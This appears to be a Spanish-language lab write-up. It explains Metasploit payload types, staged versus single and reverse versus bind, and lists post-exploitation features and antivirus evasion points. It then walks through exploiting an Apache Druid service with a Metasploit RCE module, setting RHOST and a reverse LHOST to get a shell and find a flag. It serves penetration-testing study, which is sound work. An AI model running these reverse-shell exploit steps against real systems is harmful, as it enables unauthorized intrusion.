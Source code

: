 - Modo de entrega
	 - Staged (stager + stage) → verás en la salida mensajes tipo Started reverse TCP handler... y luego Sending stage (201283 bytes) antes de que se abra la sesión. Es modular: primero un pequeño stager, luego se descarga el stage grande (Meterpreter, VNC, etc.).
	 - Single (inline) → se envía todo en un único bloque; la salida no mostrará “sending stage” grande, simplemente la sesión se abre de forma directa (si el exploit soporta el tamaño).
- Transporte
	- reverse_tcp / reverse_http / reverse_https → la víctima conecta de vuelta al atacante (menos ruido en firewalls internos).
	- bind_tcp / bind_ipv6 / named_pipe → la víctima abre un puerto y el atacante se conecta a él.
- Funcionalidad / capacidades
	- Meterpreter / vncinject / powershell ≫ capacidades avanzadas de post-explotación (keystroke, webcam, persistencia, carga de plugins).
	- shell / exec ≫ acceso limitado a comandos del SO, más simple y directo.
- Tamaño / fiabilidad / detección
		- Singles suelen ser más grandes → pueden romper exploits que tienen límite de tamaño o activar AV si son pesados.
		- Staged más pequeños inicialmente → mejor para evitar restricciones y para descargar código más grande sólo si la conexión se establece.


**Ejemplo de como se ven por consola:

```
- **Staged Meterpreter (windows/x64/meterpreter/reverse_tcp)**
    - `[*] Started reverse TCP handler on LHOST:LPORT`
    - `[*] Sending stage (201283 bytes) to <IP>`
    - `[*] Meterpreter session 1 opened ...`
    - prompt: `meterpreter >`
        
- **Single reverse shell (windows/x64/shell_reverse_tcp inline)**
    - `[*] Started reverse TCP handler on LHOST:LPORT` 
    - (no “Sending stage (size)”)
    - `[*] Command shell session 1 opened ...` 
    - prompt: `C:\Users>`
```


----
**1. Exploit the Apache Druid service and find the flag.txt file. Submit the contents of this file as the answer.**

Haciendo un escaneo básico en nmap me muestra lo que podía intuir con el enunciado del ejercicio:
existe un servicio "Apache Druid" corriendo sobre el puerto 80.

Abro msfconsole y ejecuto:
```
search druid
```

Y selecciono el siguiente: 
```
[msf](Jobs:0 Agents:0) exploit(linux/http/apache_druid_js_rce)
```

Seteo el RHOST (dato del enunciado), y el LHOST (consultado con "ip a").
Importante: el LHOST (máquina atacante) tiene que tener una IP en el rango de la IP de la máquina víctima. 
```
[msf](Jobs:0 Agents:0) exploit(linux/http/apache_druid_js_rce) >> set RHOST 10.129.107.142
RHOST => 10.129.107.142
[msf](Jobs:0 Agents:0) exploit(linux/http/apache_druid_js_rce) >> set LHOST 10.10.15.167
LHOST => 10.10.15.167
[msf](Jobs:0 Agents:0) exploit(linux/http/apache_druid_js_rce) >> run
```
Cuando tengamos la sesión de meterpreter, ejecutamos:
```
shell            (para que nos devuelva una consola interactiva)
cd               (para ir al directorio por defecto)
```